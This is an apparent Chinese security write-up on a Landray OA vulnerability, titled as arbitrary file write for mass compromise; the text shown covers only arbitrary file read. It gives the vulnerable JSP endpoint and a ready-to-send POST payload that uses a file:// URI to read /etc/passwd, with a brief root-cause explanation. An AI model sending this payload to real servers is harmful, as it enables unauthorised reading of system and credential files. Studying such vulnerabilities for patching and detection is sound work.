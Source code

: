# 蓝凌OA任意文件任意文件写入之批量上线

## 任意文件读取

&emsp;&emsp;先说一下任意文件读取，访问```/sys/ui/extend/varkind/custom.jsp```，并且POST参数为```var={“body”:{“file”:“file:///etc/passwd”}}```

![](./attachment/2022-01-11/lanling1.png)

&emsp;&emsp;由此可见我们已经能够读取到```/etc/passwd```文件。

## 原理

&emsp;&emsp;看一下出漏子的文件，可见未经过滤内容就直接import了var变量里的file，通过构造file协议可以造成任意文件读取。

![](./attachment/2022-01-11/lanling2.png)
